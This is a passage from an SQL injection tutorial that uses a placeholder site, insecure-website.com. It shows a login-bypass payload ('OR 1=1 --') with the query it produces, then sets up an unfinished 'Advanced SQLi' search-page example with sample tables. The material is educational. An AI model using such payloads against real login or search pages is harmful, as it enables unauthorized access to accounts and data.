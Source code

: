 Another method would be to just create a true statement to bypass needing to know who the user is.

```
http://insecure-website.com/login.php?user=jeff'+OR+1=1+--
```

This would create the following query 
```
SELECT * FROM Users_tb WHERE username = 'jeff' OR 1=1 --' AND password = '$pass'
```

This would cause the database to login as the top user in the database "Alice" because the true parameter of 1=1 is supplied as an OR to the username and the rest of the query statement is commented out.


## Advanced SQLi

To show some of the more complicated injections that can be done we will be using a search page as an example.  The following tables are applicable. 

#### Users_db
##### Users_tb
| username | password |
| --- | --- |
| Alice | is_the_best |
| Bob | Str0ngP@ss! |

#### Products_db
##### Products_tb
| gifts | price |
| --- | --- |
| Flowers | 5.99 |
| Chocolates | 2.99 |
| Card | 1.99 |



Products search request.
```
https://insecure-website.com/products.php?gifts=gift
```

Products search request query.
```
SELECT * FROM Products_tb WHERE gifts = '$gift'
```

For this example the products.php will return the product name and price or it will return there was an error in MSSQL query.
```
if true:
	do echo "The $gift costs $price"
	else echo "MSSQL query error"
```
